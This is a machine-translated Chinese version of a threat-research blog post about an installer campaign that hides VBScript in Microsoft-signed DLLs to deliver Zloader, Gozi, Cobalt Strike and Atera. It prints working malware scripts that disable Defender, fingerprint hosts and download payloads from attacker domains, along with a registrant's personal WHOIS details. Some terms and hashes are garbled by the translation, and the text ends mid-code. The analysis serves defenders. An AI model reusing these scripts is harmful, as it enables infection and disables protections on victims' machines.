





# 已签名的 DLL 活动即服务

> 原文：<https://medium.com/walmartglobaltech/signed-dll-campaigns-as-a-service-7760ac676489?source=collection_archive---------0----------------------->

作者:杰森·里维斯和约书亚·普拉特


最近，一名演员开始使用一种技术，在微软签名的 dll 的末尾嵌入 VBScript 数据，以便 GPG 解密，然后引爆有效载荷。在撰写我们的研究时，CheckPoint[7][8]发布了另一篇文章，但我们认为我们自己的研究已经有足够多的内容可以添加到这个故事中。

这个概念在使用各种文件之前已经讨论过，通常被称为“多种语言”，例如 lnk 文件[2]和附加到 PE 文件[1]。在这些活动中，他们使用微软签名的 dll，并滥用代码签名检查错误，试图绕过安全措施。

与 Zloader 相关的活动之前也讨论过[3],所以我们将集中讨论最近活动中的更新和差异。

# 运动

该活动有多个组成部分，但其理念是最终引爆恶意软件，我们所了解的恶意软件有效载荷包括以下内容:

```
AterAgent RAT
Zloader
Gozi
CobaltStrike
```

正如之前在 SentinelOne[3]文章中提到的，这些活动仍然从假冒的安装程序开始，对于我们最近调查的活动，他们使用 AdvancedInstaller 创建软件包，然后启动各种组件的引爆过程。



后续组件将处理各种设置功能，例如使用附加到 Microsoft 签名二进制文件的 VBScript 代码为 msiexec 设置排除:

```
<script LANGUAGE="VBScript">
Set WshShell = CreateObject ("WScript.Shell")
WshShell.run "cmd.exe /c powershell.exe -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath '%USERPROFILE%\AppData\Roaming'", 0
WshShell.run "cmd.exe /c powershell.exe -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath '%USERPROFILE%\AppData\Roaming*'", 0
WshShell.run "cmd.exe /c powershell.exe -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath '%USERPROFILE%\AppData\Roaming\*'", 0
WshShell.run "cmd.exe /c powershell.exe -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath 'C:\*'", 0
WshShell.run "cmd.exe /c powershell.exe -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath 'C:\'", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -MAPSReporting 0", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess 'regsvr32'", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess 'rundll32.exe'", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess 'rundll32*'", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionExtension '.exe'", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess 'regsvr32*'", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess '.dll'", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess '*.dll'", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -PUAProtection disable", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -EnableControlledFolderAccess Disabled", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -DisableRealtimeMonitoring $true", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -DisableBehaviorMonitoring $true", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -DisableIOAVProtection $true", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -DisablePrivacyMode $true", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -SignatureDisableUpdateOnStartupWithoutEngine $true", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -DisableArchiveScanning $true", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -DisableIntrusionPreventionSystem $true", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -DisableScriptScanning $true", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -SubmitSamplesConsent 2", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess '*.exe'", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess 'explorer.exe'", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess '.exe'", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -HighThreatDefaultAction 6 -Force", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -ModerateThreatDefaultAction 6", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -LowThreatDefaultAction 6", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -SevereThreatDefaultAction 6", 0
WshShell.run "cmd.exe /c powershell.exe -command Set-MpPreference -ScanScheduleDay 8", 0
WshShell.run "cmd.exe /c powershell.exe -command Add-MpPreference -ExclusionProcess 'msiexec.exe'", 0
window.close()
</script>
```

除了安装供 powershell 使用的 GPG:

```
function Install-GnuPg {
 <#
 .SYNOPSIS
  This function installed the GnuPg for Windows application.  It the installer file is not in
  the DownloadFolderPath, the function will download the file from the Internet and then execute a silent installation.
 .PARAMETER  DownloadFolderPath
  The folder path where you'd like to download the GnuPg for Windows installer into.$uri = '[https://raw.githubusercontent.com/adbertram/Random-PowerShell-Work/master/Security/GnuPg.psm1'](https://raw.githubusercontent.com/adbertram/Random-PowerShell-Work/master/Security/GnuPg.psm1')
$moduleFolderPath = 'C:\Program Files\WindowsPowerShell\Modules\GnuPg'
$null = New-Item -Path $moduleFolderPath -Type Directory
Invoke-WebRequest -Uri $uri -OutFile (Join-Path -Path $moduleFolderPath -ChildPath 'GnuPg.psm1')
$env:APPDATA
Install-GnuPG -DownloadFolderPath $env:APPDATA
echo "START"
```

该脚本还将执行一些有趣的检查，以确定在企业环境中的可能性:

```
$MaxIPToSendRequest = 2$UserDomain = wmic computersystem get domain
$UserDomain = $UserDomain[2]
$UserDomain = $UserDomain.trim()$UserPCname = $env:computername
$UserPCname = $UserPCname.trim()Write-Host  'UserDomain = '$UserDomain
Write-Host  'UserPCname = '$UserPCname$Condition001 = ($UserDomain -ne $UserPCname)
$Condition002 = ($UserDomain -ne "WORKGROUP")$ArpInfo  = arp -a$arr1 =$ArpInfo | select-string "192.168.(\d{1,3})(\.\d{1,3})(.)*(\w\w-){5}(\w\w)" 
        $arr1_count= $arr1.length
        #Write-Output $arr1$arr2 =$ArpInfo | select-string "10.(\d{1,3}).\d{1,3}(\.\d{1,3})(.)*(\w\w-){5}(\w\w)" 
        $arr2_count= $arr2.length
        #Write-Output $arr2$arr3 =$ArpInfo | select-string "172.(\d{1,3}).\d{1,3}(\.\d{1,3})(.)*(\w\w-){5}(\w\w)" 
        $arr3_count= $arr3.length
        #Write-Output $arr3

        $IP_count= $arr1_count + $arr2_count + $arr3_countWrite-Host 'IP_count =' $IP_count$Condition003 = ($IP_count -ge $MaxIPToSendRequest)$Condition_All =  $Condition001 -and $Condition002 -and $Condition003
```

这些检查然后确定将安装哪个恶意软件，如果满足所有条件并且脚本可能在企业内部，那么对于这个实例，它将安装 CobaltStrike 和 AteraAgent RAT，如果不满足，那么它将安装 Gozi 或 Zloader。

```
if ($Condition_All ) 
{

   $URL = "[https://cloudfiletehnology.com/z00m/index/processingSetRequestCoba/?servername=msi&arp=](https://cloudfiletehnology.com/z00m/index/processingSetRequestCoba/?servername=msi&arp=)"+ $IP_count + "&domain=" + $UserDomain + "&hostname=" + $UserPCname
  Invoke-WebRequest [https://cloudfiletehnology.com/z00m/index/processingSetRequestBat5/?servername=msi](https://cloudfiletehnology.com/z00m/index/processingSetRequestBat5/?servername=msi) -OutFile ais.bat
  Invoke-WebRequest [https://cloudfiletehnology.com/z00m/index/processingSetRequestBat6/?servername=msi](https://cloudfiletehnology.com/z00m/index/processingSetRequestBat6/?servername=msi) -OutFile apiicontrast.dll
  Invoke-WebRequest $URL -outfile zoom2.dll.gpg
  Invoke-WebRequest [https://cloudfiletehnology.com/z00m/index/processingSetRequestAtera/?servername=msi](https://cloudfiletehnology.com/z00m/index/processingSetRequestAtera/?servername=msi) -outfile zoom1.msi.gpg   
}
else
{$URL = "[https://cloudfiletehnology.com/z00m/index/processingSetRequestBot/?servername=msi&arp=](https://cloudfiletehnology.com/z00m/index/processingSetRequestBot/?servername=msi&arp=)"+ $IP_count + "&domain=" + $UserDomain + "&hostname=" + $UserPCname
  Invoke-WebRequest [https://cloudfiletehnology.com/z00m/index/processingSetRequestBat5/?servername=msi](https://cloudfiletehnology.com/z00m/index/processingSetRequestBat5/?servername=msi) -OutFile ais.bat
  Invoke-WebRequest [https://cloudfiletehnology.com/z00m/index/processingSetRequestBat6/?servername=msi](https://cloudfiletehnology.com/z00m/index/processingSetRequestBat6/?servername=msi) -OutFile apiicontrast.dll
  Invoke-WebRequest $URL -outfile zoom.dll.gpg
}
```

从这里开始，它开始利用多个批处理文件，但您可能会注意到，许多 DLL 文件也被下载，这些 DLL 文件通常是附加了 VBScript 代码的 Microsoft 签名的 DLL。

# 聚乙烯聚乙二醇技术

其中一些被滥用的 dll 在 VirusTotal 上的检测数为 0:



Screenshot from [VirusTotal](https://www.virustotal.com)

但是，如果我们查看文件中的数据，我们可以看到 VBScript 代码已经附加到文件中:

```
00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00<script LANGUAGE="VBScript">\r\n\r\nSet WshShell = CreateObject ("WScript.Shell")\r\nSub Sleep (ms) \r\n  Set fso = CreateObject("Scripting.FileSystemObject") \r\n  Dim sFilePath: sFilePath = fso.GetSpecialFolder(2) & "\\WScriptSleeper.vbs"\r\n  If Not fso.FileExists(sFilePath) Then\r\n      Set oFile = fso.CreateTextFile(sFilePath, True)\r\n      oFile.Write "wscript.sleep WScript.Arguments(0)"\r\n      oFile.Close\r\n  End If\r\n\r\n  Dim oShell: Set oShell = CreateObject("WScript.Shell")\r\n  oShell.Run sFilePath & " " & ms, 0, True\r\nEnd Sub\r\nSleep (45000)\r\nWshShell.run "cmd.exe /c PowerShell -NoProfile -ExecutionPolicy Bypass -command Import-Module GnuPg; Remove-Encryption -FolderPath %AppData% -Password \'bibigroup\'", 0\r\nSleep (45000)\r\nWshShell.run "cmd.exe /c zoom1.msi", 0\r\nWshShell.run "cmd.exe /c rundll32.exe zoom.dll DllRegisterServer"\r\nWshShell.run "cmd.exe /c mode.exe", 0\r\nwindow.close()\r\n</script>
```

更漂亮的 VBScript 版本:

```
<script LANGUAGE="VBScript">
Set WshShell = CreateObject ("WScript.Shell")
Sub Sleep (ms) 
  Set fso = CreateObject("Scripting.FileSystemObject") 
  Dim sFilePath: sFilePath = fso.GetSpecialFolder(2) & "\WScriptSleeper.vbs"
  If Not fso.FileExists(sFilePath) Then
      Set oFile = fso.CreateTextFile(sFilePath, True)
      oFile.Write "wscript.sleep WScript.Arguments(0)"
      oFile.Close
  End If
  Dim oShell: Set oShell = CreateObject("WScript.Shell")
  oShell.Run sFilePath & " " & ms, 0, True
End Sub
Sleep (45000)
WshShell.run "cmd.exe /c PowerShell -NoProfile -ExecutionPolicy Bypass -command Import-Module GnuPg; Remove-Encryption -FolderPath %AppData% -Password 'bibigroup'", 0
Sleep (45000)
WshShell.run "cmd.exe /c zoom1.msi", 0
WshShell.run "cmd.exe /c rundll32.exe zoom.dll DllRegisterServer"
WshShell.run "cmd.exe /c mode.exe", 0
window.close()
</script>
```

这个 DLL 应该由“mshta.exe”执行，然后它将解密并引爆文件。如前所述，引爆部分将涉及批处理文件的使用，例如:

e 3d 7 f 1 af 2 BC 790 cf 143827d 2335 b 594 DC 3d 54 a 0 f 49 CB 61 E0 b 8d 6 a2 D1 f 0 ad 27 CB

```
[cd %APPDATA%](https://www.virustotal.com/gui/search/content%253A%257B636420254150504441544125%257D)
  [start /b cmd /c C:\Windows\System32\mshta.exe %APPDATA%\appContast.dll](https://www.virustotal.com/gui/search/content%253A%257B7374617274202f6220636d64202f6320433a5c57696e646f77735c53797374656d33325c6d736874612e657865202541505044415441255c617070436f6e746173742e646c6c%257D)
  [start /b cmd /c C:\Windows\System32\mshta.exe %APPDATA%\apiicontrast.dll](https://www.virustotal.com/gui/search/content%253A%257B7374617274202f6220636d64202f6320433a5c57696e646f77735c53797374656d33325c6d736874612e657865202541505044415441255c61706969636f6e74726173742e646c6c%257D)
  [powershell Invoke-WebRequest https://commandaadmin.com/adminpriv.exe -OutFile adminpriv.exe](https://www.virustotal.com/gui/search/content%253A%257B706f7765727368656c6c20496e766f6b652d576562526571756573742068747470733a2f2f636f6d6d616e646161646d696e2e636f6d2f61646d696e707269762e657865202d4f757446696c652061646d696e707269762e657865%257D)
  [adminpriv  -U:T -ShowWindowMode:Hide reg add  "HKLM\Software\Policies\Microsoft\Windows Defender\UX Configuration"  /v  "Notification_Suppress" /t REG_DWORD /d "1" /f](https://www.virustotal.com/gui/search/content%253A%257B61646d696e70726976202d553a54202d53686f7757696e646f774d6f64653a4869646520726567206164642022484b4c4d5c536f6674776172655c506f6c69636965735c4d6963726f736f66745c57696e646f777320446566656e6465725c555820436f6e66696775726174696f6e2220202f7620224e6f74696669636174696f6e5f537570707265737322202f74205245475f44574f5244202f6420223122202f66%257D)
  [adminpriv  -U:T -ShowWindowMode:Hide reg add  "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v  "DisableTaskMgr" /t REG_DWORD /d "1" /f](https://www.virustotal.com/gui/search/content%253A%257B61646d696e70726976202d553a54202d53686f7757696e646f774d6f64653a4869646520726567206164642022484b43555c536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c506f6c69636965735c53797374656d22202f76202244697361626c655461736b4d677222202f74205245475f44574f5244202f6420223122202f66%257D)
  [adminpriv  -U:T -ShowWindowMode:Hide reg add  "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v  "DisableCMD" /t REG_DWORD /d "1" /f](https://www.virustotal.com/gui/search/content%253A%257B61646d696e70726976202d553a54202d53686f7757696e646f774d6f64653a4869646520726567206164642022484b43555c536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c506f6c69636965735c53797374656d22202f76202244697361626c65434d4422202f74205245475f44574f5244202f6420223122202f66%257D)
  [adminpriv  -U:T -ShowWindowMode:Hide reg add  "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v  "DisableRegistryTools" /t REG_DWORD /d "1" /f](https://www.virustotal.com/gui/search/content%253A%257B61646d696e70726976202d553a54202d53686f7757696e646f774d6f64653a4869646520726567206164642022484b43555c536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c506f6c69636965735c53797374656d22202f76202244697361626c655265676973747279546f6f6c7322202f74205245475f44574f5244202f6420223122202f66%257D)
  [adminpriv  -U:T -ShowWindowMode:Hide reg add  "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v  "NoRun" /t REG_DWORD /d "1" /f](https://www.virustotal.com/gui/search/content%253A%257B61646d696e70726976202d553a54202d53686f7757696e646f774d6f64653a4869646520726567206164642022484b43555c536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c506f6c69636965735c4578706c6f72657222202f7620224e6f52756e22202f74205245475f44574f5244202f6420223122202f66%257D)
  [powershell.exe -command "Add-MpPreference -ExclusionExtension ".bat""](https://www.virustotal.com/gui/search/content%253A%257B706f7765727368656c6c2e657865202d636f6d6d616e6420224164642d4d70507265666572656e6365202d4578636c7573696f6e457874656e73696f6e20222e6261742222%257D)
  [adminpriv -U:T -ShowWindowMode:Hide bcdedit /set {default} recoveryenabled No](https://www.virustotal.com/gui/search/content%253A%257B61646d696e70726976202d553a54202d53686f7757696e646f774d6f64653a486964652062636465646974202f736574207b64656661756c747d207265636f76657279656e61626c6564204e6f%257D)
  [adminpriv -U:T -ShowWindowMode:Hide bcdedit /set {default} bootstatuspolicy ignoreallfailures](https://www.virustotal.com/gui/search/content%253A%257B61646d696e70726976202d553a54202d53686f7757696e646f774d6f64653a486964652062636465646974202f736574207b64656661756c747d20626f6f74737461747573706f6c6963792069676e6f7265616c6c6661696c75726573%257D)
  [adminpriv -U:T sc config WinDefend start= disabled](https://www.virustotal.com/gui/search/content%253A%257B61646d696e70726976202d553a5420736320636f6e6669672057696e446566656e642073746172743d2064697361626c6564%257D)
  [ping 127.0.0.1 -n 50 > nul](https://www.virustotal.com/gui/search/content%253A%257B70696e67203132372e302e302e31202d6e203530203e206e756c%257D)
  [powershell Invoke-WebRequest https://commandaadmin.com/reboos.dll -OutFile reboos.dll](https://www.virustotal.com/gui/search/content%253A%257B706f7765727368656c6c20496e766f6b652d576562526571756573742068747470733a2f2f636f6d6d616e646161646d696e2e636f6d2f7265626f6f732e646c6c202d4f757446696c65207265626f6f732e646c6c%257D)
  [cd %USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup](https://www.virustotal.com/gui/search/content%253A%257B636420255553455250524f46494c45255c417070446174615c526f616d696e675c4d6963726f736f66745c57696e646f77735c5374617274204d656e755c50726f6772616d735c53746172747570%257D)
  [powershell Invoke-WebRequest https://commandaadmin.com/auto.bat -OutFile auto.bat](https://www.virustotal.com/gui/search/content%253A%257B706f7765727368656c6c20496e766f6b652d576562526571756573742068747470733a2f2f636f6d6d616e646161646d696e2e636f6d2f6175746f2e626174202d4f757446696c65206175746f2e626174%257D)
  [powershell.exe  New-ItemProperty -Path  HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name  EnableLUA -PropertyType DWord -Value 0 -Force](https://www.virustotal.com/gui/search/content%253A%257B706f7765727368656c6c2e657865204e65772d4974656d50726f7065727479202d5061746820484b4c4d3a536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c706f6c69636965735c73797374656d202d4e616d6520456e61626c654c5541202d50726f7065727479547970652044576f7264202d56616c75652030202d466f726365%257D)
  [shutdown](https://www.virustotal.com/gui/search/content%253A%257B73687574646f776e%257D)
  [shutdown /s /f /t 01](https://www.virustotal.com/gui/search/content%253A%257B73687574646f776e202f73202f66202f74203031%257D)
  [shutdown /s /f /t 00](https://www.virustotal.com/gui/search/content%253A%257B73687574646f776e202f73202f66202f74203030%257D)
  [shutdown /s /f](https://www.virustotal.com/gui/search/content%253A%257B73687574646f776e202f73202f66%257D)
```

对于这个实例，adminpriv 是 Nsudo[4]，而 reboos.dll 是使用 mshta.exe 的相同技巧引爆一个单独的 DLL:

```
<script LANGUAGE="VBScript">
Set WshShell = CreateObject ("WScript.Shell")
WshShell.run "cmd.exe /c rundll32.exe zoom2.dll DllRegisterServer", 0
WshShell.run "cmd.exe /c regsvr32 zoom.dll", 0
window.close()
</script>
```

从上面下载的批处理文件“auto.bat”将利用我们提到的 adminpriv，即 NSude[4]:

```
adminpriv -U:T -ShowWindowMode:Hide  sc delete  windefend
```

它还将执行其他 vbs 代码，这些代码也符合 SentinelOne 之前所做的工作:

```
:UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params = %*:"="
    echo UAC.ShellExecute "cmd.exe", "/c %~s0 %params%", "", "runas", 0 >> "%temp%\getadmin.vbs""%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B
```

最后，我们可以看到它使用 mshta 引爆附加到 DLL 的代码:

```
start /b cmd /c C:\Windows\System32\mshta.exe %APPDATA%\apiicontrast.dll
```

这个实例的缩放文件是一个 AteraAgent 安装程序:

b 6280 ee 7d 58 b 89 b 0951 f 08 aabe 64 f 1780887 BF 360 e8a 725 e 4269675398 ebad 65

```
Plushkinloder9@yandex.ru
```

与 Atera 安装程序相关的电子邮件也用于域名注册:

```
Registry Registrant ID: reg-a6r6lkbkoh64
Registrant Name: [Alexey Samoylov](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Alexey%20Samoylov)
Registrant Organization: [Private Person](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Private%20Person)
Registrant Street: [sadovaya 14](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=sadovaya%2014)
Registrant City: [oktyaborskiy](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=oktyaborskiy)
Registrant State/Province: [Ulyanovskaya](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Ulyanovskaya)
Registrant Postal Code: [433407](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=433407)
Registrant Country: RU
Registrant Phone: [+7.9260229351](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=%2b7.9260229351)
Registrant Phone Ext:
Registrant Fax: 
Registrant Fax Ext:
Registrant Email: [plushkinloder9@yandex.ru](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=plushkinloder9@yandex.ru)
Registry Admin ID: reg-zsnzthxfekkq
Admin Name: [Alexey Samoylov](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Alexey%20Samoylov)
Admin Organization: [Private Person](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Private%20Person)
Admin Street: [sadovaya 14](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=sadovaya%2014)
Admin City: [oktyaborskiy](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=oktyaborskiy)
Admin State/Province: [Ulyanovskaya](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Ulyanovskaya)
Admin Postal Code: [433407](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=433407)
Admin Country: RU
Admin Phone: [+7.9260229351](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=%2b7.9260229351)
Admin Phone Ext:
Admin Fax: [+7.9260229351](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=%2b7.9260229351)
Admin Fax Ext:
Admin Email: [plushkinloder9@yandex.ru](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=plushkinloder9@yandex.ru)
Registry Tech ID:  reg-v8bnf870ivb6
Tech Name: [Alexey Samoylov](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Alexey%20Samoylov)
Tech Organization: [Private Person](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Private%20Person)
Tech Street: [sadovaya 14](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=sadovaya%2014)
Tech City: [oktyaborskiy](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=oktyaborskiy)
Tech State/Province: [Ulyanovskaya](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=Ulyanovskaya)
Tech Postal Code: [433407](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=433407)
Tech Country: RU
Tech Phone: [+7.9260229351](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=%2b7.9260229351)
Tech Phone Ext:
Tech Fax: [+7.9260229351](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=%2b7.9260229351)
Tech Fax Ext:
Tech Email: [plushkinloder9@yandex.ru](https://www.reg.ru/whois/history/index?reverse_whois=1&term1=plushkinloder9@yandex.ru)
```

在我们对 12 月营销活动的调查中，至少有一个营销活动服务器仍然在线:



Installer campaign panel login

这是一个已售出的服务，可以链接到我们之前讨论过的一个组，ConfCrew[6]。

# 活动统计

活动从 2021 年 5 月开始，持续到 2021 年 12 月:



Infections by month in 2021

感染主要发生在美国和欧洲，但在地理上覆盖了广泛的地区:



Infections by geolocation

# 恶意软件配置提取

Zloader 是较新的版本，配置是简单的加密与 RC4 使用硬编码密钥，这是在文章中提到的 Hasherezade 以前[5]。我们可以滥用内部配置中的空值以及 RC4 加密的一些基本知识，在找到密钥后找到内部配置:

```
config_key = re.findall('[a-z]{20,}', data)
```

找到密钥后，我们可以通过从 256 字节 SBOX 中查找 16 字节块来找到加密配置，这将告诉我们加密配置所在的大致区域，这使得这成为一个棘手的问题。

```
 if len(config_key) > 0:
        #Find possible key
        key = config_key[0]
        #Because ARC4 is a reoccuring sbox of 256 bytes
        #We can possible find the encrypted config by looking for any 16 byte
        # sequence from a null encrypted block
        temp = '\x00'*256
        rc4 = ARC4.new(key)
        needle = rc4.encrypt(temp)
        offsets = []
        for i in range(256/16):
            if needle[i*16:(i+1)*16] in data:
                offsets.append(data.find(needle[i*16:(i+1)*16]))
        if len(offsets) > 0:
            #Take first occurrence
            off = min(offsets)
            #Create bruteable space
